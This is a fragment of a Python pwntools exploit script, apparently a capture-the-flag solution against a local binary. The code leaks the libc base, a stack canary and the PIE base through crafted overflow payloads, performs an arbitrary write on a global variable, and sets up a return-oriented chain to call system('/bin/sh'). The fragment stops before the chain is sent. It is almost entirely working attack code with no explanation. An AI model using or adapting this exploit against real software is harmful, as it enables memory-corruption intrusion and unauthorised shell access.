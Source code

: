 ```python
        p.sendlineafter(b'live? : \n', str(plus))
        p.sendlineafter(b') : \n', str(10))

        #libc_base
        p.recvuntil(b'This is your post code\n')
        libc_p = p.recvline()[:-1].split(b' ')
        libc_base = int(libc_p[0].decode()) - 0x7ffff7fa96a0 + 0x7ffff7d8e000
        print('libc_base = ' + hex(libc_base))

        payload = b'a' * 0x19
        p.sendafter(b'> \n', payload) # buf

		p.recvuntil(b'result!\n')
        str1 = decrypt(p.recvline()[:-1])
        canary = u64(b'\x00' + str1[0x19:0x20])
        sfp = u64(str1[0x20:] + b'\x00' * 2)
        print(b'canary = ' + p64(canary))
        print('sfp = ' + hex(sfp))

        #Second sub_1491 - PIE_base leak
        p.send(b'a') #s
        payload = b'a' * 0x19 + p64(canary)[1:] + b'b' * 8 + p64(main_p)[:2]
        p.sendafter(b'> \n', payload) # buf
        p.recvuntil('name? : \n') # check_success_bof

        p.recvuntil(b'result!\n')
        str2 = decrypt(p.recvline()[:-1])[-6:]
        pie_base = u64(str2 + b'\x00' * 2) - main_p
        print('pie_base = ' + hex(pie_base))

        #Third sub_1491 - dword_4010 -> 16
        p.send(b'a') #s
        dword_p = pie_base + 0x00000000000014cd
        payload = b'a' * 0x19 + p64(canary)[1:] + p64(sfp - 0x600) + p64(dword_p)
        p.sendafter(b'> \n', payload) # buf

        #ret2main to prevent accidents
        p.recvuntil(b'result!\n') #wait for thread
        p.send(b'a') #s
        main = pie_base + main_p
        payload = b'a' * 0x19 + p64(canary)[1:] + p64(sfp - 0x680) + p64(main)
        p.sendafter(b'>', payload) # buf

        #Fourth sub_1491 - Prepare for race condition
        p.recvuntil(b'result!\n') #wait for thread
        p.send(b'a') #s
        payload = b'a' * 0x19 + p64(canary)[1:] + p64(sfp - 0x700) + p64(main)
        p.sendafter(b'>', payload) # buf

        #Fifth sub_1491 - do AAW
        #No time to wait for thread
        read_n = pie_base + 0x4010
        payload = p64(1028) + p64(read_n)
        p.sendafter(b' : \n', payload) #s
        p.interactive() # wait for thread

        #do ROP
        payload = b'a' * 0x19 + p64(canary)[1:] + p64(sfp - 0x780) + p64(main)
        p.send(payload) # buf

        ret = pie_base + 0x000000000000101a
        system_p = libc_base + l.symbols['system']
        bin_sh = libc_base + list(l.search(b'/bin/sh'))[0]
```